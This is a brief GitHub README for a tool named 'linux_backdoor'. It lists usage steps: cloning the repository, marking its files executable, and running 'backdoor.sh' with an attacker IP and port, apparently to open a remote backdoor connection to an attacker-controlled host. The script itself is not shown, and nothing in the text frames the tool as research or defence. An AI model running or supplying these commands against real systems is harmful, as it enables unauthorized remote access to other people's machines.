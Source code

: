 # linux_backdoor

Usage : 

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  cd linux_backdoor
  
  chmod +x *
  
  bash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)

  
  



